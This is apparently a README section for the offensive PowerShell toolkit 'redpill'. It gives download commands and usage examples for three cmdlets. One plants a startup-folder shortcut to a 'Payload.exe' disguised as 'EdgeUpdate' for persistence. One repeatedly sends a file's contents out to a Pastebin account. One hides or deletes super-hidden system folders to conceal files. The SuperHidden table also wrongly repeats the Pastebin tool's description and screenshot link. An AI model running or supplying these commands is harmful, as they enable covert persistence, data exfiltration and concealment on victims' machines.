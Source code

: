 ## Out-shortcut.ps1
   
|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|[Out-shortcut](https://github.com/r00t-3xp10it/redpill/blob/main/lib/Out-FileFormat/Out-shortcut.ps1)|Creates an shortcut file that accepts cmdline arguments to execute|User Land|[Screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Out-FileFormat/Out-Shortcut.png)|

<br />

**download cmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Out-FileFormat/Out-shortcut.ps1" -OutFile "Out-shortcut.ps1"
```

<br />

**execute:**
```powershell
#Create shortcut pointing to '$Env:TMP\Payload.exe' on startup folder with 'EdgeUpdate' description
.\Out-Shortcut.ps1 -shortcut "$Env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup" -target "$Env:TMP\Payload.exe" -description "EdgeUpdate"
```   

<br />

## SendToPasteBin.ps1
   
|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|[SendToPasteBin](https://github.com/r00t-3xp10it/redpill/blob/main/lib/Out-FileFormat/SendToPasteBin.ps1)|Get filepath contents and paste it to pastebin.|User Land|[Screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Out-FileFormat/SendToPasteBin.png)|

<br />

**download cmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Out-FileFormat/SendToPasteBin.ps1" -OutFile "SendToPasteBin.ps1"
```

<br />

**prerequisites:**
```
-filepath 'string' only accepts .ps1 .bat .vbs file formats
-payloadurl 'string' only accepts .ps1 .bat .vbs file formats
```

<br />

**execute:**
```powershell
Get-Help .\SendToPasteBin.ps1 -full

#Get the contents of -filepath 'string' and creates a new pastebin paste from it on the sellected pastebin account.
.\SendToPasteBin.ps1 -FilePath "test.log" -maxpastes "1" -timeout "2" -PastebinUsername "r00t-3xp10it" -PastebinPassword "MyS3cr3TPassword"

#Get the contents of -filepath 'string' and creates a new pastebin paste from it each 120 seconds a max of 10 pastes on the sellected pastebin account.
.\SendToPasteBin.ps1 -FilePath "test.log" -maxpastes "10" -timeout "120" -PastebinUsername "r00t-3xp10it" -PastebinPassword "MyS3cr3TPassword"
```   

<br />

## SuperHidden.ps1
   
|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|[SuperHidden](https://github.com/r00t-3xp10it/redpill/blob/main/lib/Out-FileFormat/SuperHidden.ps1)|Get filepath contents and paste it to pastebin.|User Land|[Screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Out-FileFormat/SendToPasteBin.png)|

<br />

**download cmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Out-FileFormat/SuperHidden.ps1" -OutFile "SuperHidden.ps1"
```

<br />

**execute:**
```powershell
Get-Help .\SuperHidden.ps1 -full

#Search for 'Hidden, System' folders on predefined locations
.\SuperHidden.ps1 -Action Query

#Search for 'Hidden, System' folders on %TMP% location
.\SuperHidden.ps1 -Action Query -Directory $Env:TMP
   
#Search for 'Hidden, System' folders on %TMP% location 'recursive' (sub-folders)
.\SuperHidden.ps1 -Action Query -Directory $Env:TMP -Recursive true
   
#Search for folders with 'Hidden' attribute (not super Hidden, System) on %TMP%
.\SuperHidden.ps1 -Action Query -Directory $Env:TMP -attributes Hidden
   
#Search for 'Hidden, System' folders on %TMP% location with the name of 'vault'
.\SuperHidden.ps1 -Action Query -Directory $Env:TMP -FolderName vault
   
#Create\Modify 'Hidden, System' folder on %TMP% location with the name of 'vault'
.\SuperHidden.ps1 -Action Hidden -Directory $Env:TMP -FolderName vault
      
#Create\modify 'VISIBLE, System' folder on %TMP% location with the name of 'vault'
.\SuperHidden.ps1 -Action Visible -Directory $Env:TMP -FolderName vault
       
#Delete the super hidden 'Hidden, System' folder of %TMP% with the name of 'vault'
.\SuperHidden.ps1 -Action Delete -Directory $Env:TMP -FolderName vault
   
#Search for 'Hidden' OR 'System' directorys on %TMP% location in 'recursive' mode (scan sub-folders)
.\SuperHidden.ps1 -Action Query -Directory $Env:TMP -Attributes "(Hidden|System)" -Recursive true    
``` 
